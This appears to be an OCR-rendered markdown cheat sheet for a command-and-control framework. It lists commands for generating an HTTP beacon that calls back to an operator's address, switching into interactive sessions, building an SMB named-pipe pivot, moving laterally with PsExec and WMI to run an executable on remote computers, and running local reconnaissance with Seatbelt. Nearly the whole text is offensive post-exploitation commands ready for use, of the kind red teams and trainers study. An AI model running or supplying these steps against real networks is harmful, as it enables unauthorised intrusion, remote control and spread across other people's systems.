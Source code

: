 ### Generate Binary
```
generate beacon --http <ip address>:<port>
```

## Post Exploitation

### Beacon
```
use <beacon_id>
```

### Sessions
Switching from Beacon Mode to Session Mode
```
sessions
use <sessions_id>
interactive
```

### Kill All Session
```
sessions -F -K
```
---

### Lateral Movement

#### SMB Listener
```
pivots named-pipe --bind <named_pipe>
profiles new --format service --named-pipe <local_ip>/pipe/<named_pipe> svc-smb-beacon
```

#### PSEXEC Lateral Movement
```
psexec -d Description -s PAEXEC -p svc-smb-beacon <remote_computer>
```

#### WMI Lateral Movement
```
sharp-wmi 'action=exec computername=<remote_computer> command="C:\windows\temp\xxx.exe" result=true'
```
---

## Internal Reconnaissance 

#### Situational Awareness - Local
```
seatbelt -p C:\\Windows\\System32\\werfault.exe -- "-group=user"
```
